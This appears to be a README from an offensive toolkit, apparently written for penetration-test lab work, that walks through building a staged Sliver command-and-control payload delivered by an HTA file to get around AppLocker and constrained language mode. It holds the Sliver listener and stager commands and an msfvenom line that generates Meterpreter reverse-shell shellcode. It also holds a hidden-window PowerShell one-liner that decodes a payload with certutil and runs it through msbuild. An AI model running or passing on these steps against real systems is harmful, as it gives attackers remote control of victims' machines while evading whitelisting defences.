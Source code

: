 # Overview

## References
Sliver staged payload: ToolLibrary/AppLocker-CLM/HTA/Sliver-Basic-HTA-Loader/sliver.ps1
XML Payload: ToolLibrary/AppLocker-CLM/HTA/Sliver-Basic-HTA-Loader/runner.xml
HTA Template: ToolLibrary/AppLocker-CLM/HTA/Sliver-Basic-HTA-Loader/runner.hta

## Sliver Setup
```bash
# Create profile local64 and point to port 443
sliver > profiles new --http 192.168.45.227:8080 --format shellcode local64

# Setup main listener with google.crt / key generated with metasploit
sliver > http -L 192.168.45.227 -l 8080

# Setup the main stager 
sliver > stage-listener --url tcp://192.168.45.227:8064 --profile local64
```

## Prepare Sliver Payload
```bash
# payload for the powershellCodeRunner 64-bit
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8064 EXITFUNC=thread -f csharp

# Copy contents into sliver.ps1 (line 43)
```

## Prepare HTA XML runner 
```bash
# Update the runner.xml with the URI that corresponds to kali hosted webserver

# Encode the runner.xml into base64 and outputs contents into encoded.txt 
┌──(kali㉿kali)-[~]
└─$ pwsh ./HTA-powershellEncoder.ps1

# Copy contents into runner.hta 
powershell -windowstyle hidden echo <insert here> > c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\a.xml;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe C:\\windows\\temp\\a.xml
```

